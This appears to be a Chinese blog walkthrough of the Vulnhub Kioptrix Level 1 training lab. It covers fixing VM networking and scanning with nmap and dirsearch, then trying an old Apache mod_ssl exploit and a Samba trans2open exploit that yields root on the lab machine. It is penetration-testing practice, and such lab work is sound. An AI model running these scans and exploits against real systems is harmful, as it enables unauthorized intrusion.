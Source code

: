 ```yaml
---
title: KIOPTRIX:LEVEL1
author: hgbe02
date: 2024-01-25
categories: [Training platform,Vulnhub]  
tags: [Vulnhub,web]  
permalink: "/Vulnhub/Kioptrix-level1.html"
---
```


# KIOPTRIX:LEVEL1

![image-20240125154640719](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202401252122606.png)

今天尝试`KIOPTRIX: LEVEL 1`靶场。

打开靶场：

![image-20240125160225054](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202401252122607.png)

## 解决靶机网络配置失败的问题(已解决)

打开以后扫描没扫出来，遇到这个bug好几次了，今天必要把他解决掉，查阅[相关资料](https://www.bilibili.com/video/BV1mu411t7Wq/?spm_id_from=333.337.search-card.all.click&vd_source=8981ead94b755f367ac539f6ccd37f77)，Z神给出了答复：

> 更改 Kioptix Level 1.vmx ，以文本打开，找到	ethernet0.connectionType = "bridged" 改为 ethernet0.connectionType = "VMnet0"

![image-20240125162315007](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202401252122609.png)

修改以后：

```shell
┌──(kali㉿kali)-[~]
└─$ sudo netdiscover -i etho
pcap_open_live(): etho: No such device exists (No such device exists)
                                                                                              
┌──(kali㉿kali)-[~]
└─$ nmap 192.168.244.1/24 -sn --min-rate 2000 -r
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-25 03:26 EST
Nmap scan report for 192.168.244.2
Host is up (0.00064s latency).
Nmap scan report for 192.168.244.133
Host is up (0.000059s latency).
Nmap done: 256 IP addresses (2 hosts up) scanned in 2.82 seconds
```

坏了，这个网络配置原因还是搞不好，将`.vxm里的bridged改成nat`试试，再将网络适配器改为NAT，老样子，扫不到，这时候发现了[一个师傅的做法](https://www.youtube.com/watch?v=23-ycrZBMDw)，前几步和我一摸一样，尝试总结一下，重新试试：

> ①右键文本打开 .vmx 文件
>
> ②修改 ethernet0.networkName = "Bridged" > ethernet0.networkName = "nat"
>
> ③网络适配器改为NAT.
>
> ④升级靶场为 VMware Station 16.x .
>
> ⑤开启虚拟机，及时查看连接方式，如果变为桥接赶紧改成NAT（实测确实变了。。。）

扫描一下，看看是不是有效：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202401252122610.png" alt="image-20240125170026839" style="zoom:50%;" />

 查看一下靶机MAC地址：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202401252122611.png" alt="image-20240125170110710" style="zoom: 33%;" />

看来是成功了，访问一下：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202401252122612.png" alt="image-20240125170200095" style="zoom:50%;" />

只能说对的一塌糊涂，牛逼，小飞侠的师傅。

## 踩点一下

随便看看网站，使用`wappaylyzer`查看一下相关配置：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202401252122613.png" alt="image-20240125170532711" style="zoom: 25%;" />

没有发现什么有意思的东西，源代码里也没有啥提醒。

## 端口扫描

使用 `nmap` 进行端口扫描：

```shell
sudo nmap -A -n- IP
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202401252122614.png" alt="image-20240125171852922" style="zoom: 50%;" />

可以看到开放了一个139端口还有一个22端口，139端口是一个Samba服务的端口：

> Samba是用来完成SMB的一种软件，由澳大利亚的Andew Tridgell开发，是一种在Linux(Unix)环境下运行的免费软件。
>
>  SAMBA 最初发展的主要目就是要用来沟通 Windows 与 Unix Like 这两个不同的作业平台
>
> - 分享档案与打印机服务；
> - 可以提供用户登入 SAMBA 主机时的身份认证，以提供不同身份者的个别数据；
> - 可以进行 Windows 网络上的主机名解析 (NetBIOS name)
> - 可以进行装置的分享 (例如 Zip, CDROM...)

## 目录扫描

```shell
disearch -u IP
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202401252122615.png" alt="image-20240125193737275" style="zoom: 67%;" />

尝试访问`/mrtg`还有`test.php`:

> Multi Router Traffic Grapher------MRTG**是一个监控网络链路流量负载的工具软件**，通过snmp协议得到设备的流量信息，并将流量负载以包含PNG格式的图形的HTML 文档方式显示给用户，以非常直观的形式显示流量负载。

![192.168.244.137_mrtg_](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202401252122616.png)

![image-20240125193950552](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202401252122617.png)

尝试搜索一下`MRTG 2.9.6`的漏洞，可以找到目录遍历漏洞，但是这里似乎并不能实现。

## Apache远程代码执行漏洞

`Zer0-hex`师傅做成功过，我也试试，尝试搜索相关漏洞：

![image-20240125195628697](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202401252122618.png)

找到一个`Apache 1.3.x mod_mylo - Remote Code Execution`，这个漏洞不戳。

```shell
┌──(kali㉿kali)-[~]
└─$ searchsploit Apache -m 67.c
[!] Could not find EDB-ID #
  Exploit: Apache 1.3.x mod_mylo - Remote Code Execution
      URL: https://www.exploit-db.com/exploits/67
     Path: /usr/share/exploitdb/exploits/multiple/remote/67.c
    Codes: OSVDB-10976, CVE-2003-0651
 Verified: True
File Type: C source, ASCII text
Copied to: /home/kali/67.c
```

但是当我编译完以后进行exploit的时候就出现了错误：

```shell
gcc 67.c   # ->a.out
┌──(kali㉿kali)-[~]
└─$ ./a.out -t 192.168.244.137
[-] Attempting attack [ SuSE 8.1, Apache 1.3.27 (installed from source) (default) ] ...
[*] Bruteforce failed.... 
Have a nice day!
```

嘶，看来在我这里是不行的。。。（尝试很多次了，重启也试过了）

## MSF使用Samba trans2open漏洞

去瞅瞅的那个139端口的那个服务看看有没有漏洞，先查看一下版本：

```shell
use auxiliary/scanner/smb/smb_version
info
set RHOST  IP
run/exploit
```

![image-20240125205155513](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202401252122619.png)

发现这里的Samba版本是`2.2.1a`，搜索一下相关漏洞，然后下载一下，这里发现一个远程执行漏洞：

![image-20240125205948006](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202401252122620.png)

编译执行一下，这里我没看到有个必要参数需要填一下：

![image-20240125210048394](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202401252122621.png)

如图我们已经拿到了root。
